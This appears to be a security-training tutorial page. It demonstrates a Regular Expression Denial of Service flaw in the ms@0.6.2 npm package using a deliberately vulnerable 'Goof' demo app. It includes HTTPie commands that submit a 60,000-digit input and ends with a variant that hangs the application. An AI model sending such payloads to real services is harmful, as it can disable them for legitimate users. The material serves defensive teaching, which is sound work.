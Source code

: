 # Example 3

Our third example vulnerability is with the [`ms`](https://www.npmjs.com/package/ms) [npm](https://www.npmjs.com/) package. This is a module that allows easy conversion of various time formats into milliseconds. The issue here is that we are using `ms@0.6.2` and this has a [Regular Expression Denial of Service \(ReDos\)](https://snyk.io/test/npm/ms/0.6.2) vulnerability.

![](../../../../.gitbook/assets/vuln_ms.png)

What this package allows us to do is to take a string input and parse into milliseconds which our application will then use to send a reminder. For example:

![](http://g.recordit.co/tgye3UMxmo.gif)

To demonstrate this vulnerability, we will move to the terminal. Let's run the following command against our application:

```text
echo 'content=Reboot server in 20 minutes' | http --form $GOOF_HOST/create -v
```

 The result will be console output similar to this:

```text
POST /create HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: elb.amazonaws.com
User-Agent: HTTPie/2.1.0

content=Reboot server in 20 minutes

HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 28
Content-Type: text/html; charset=utf-8
Date: Sat, 13 Jun 2020 21:20:16 GMT
ETag: W/"1c-41a86905"
Location: /
Vary: X-HTTP-Method-Override
X-Powered-By: Express

UmVib290IHNlcnZlciBbMjBtXQ==
```

A corresponding web result will look like this:

![](../../../../.gitbook/assets/goof_ms_01.png)

Now we will take the previous command but print the digit 5 a total of 60,000 times. This regular expression will take a non-linear amount of time to process an input. The longer the input, the longer the processing time. Let's run the following command

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutes' | http --form $GOOF_HOST/create -v
```

The result here was surprisingly fast. However, what happens when the regular expression does not match? To illustrate this, let's take the same command and swap the _**s**_ in _**minutes**_ for an _**a**_ instead. Type the following command:

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutea' | http --form $GOOF_HOST/create -v
```

This command will take a while to process and result in a non-responsive application. If you try to add or remove tasks the application will not respond and you have blocked legitimate requests from processing.

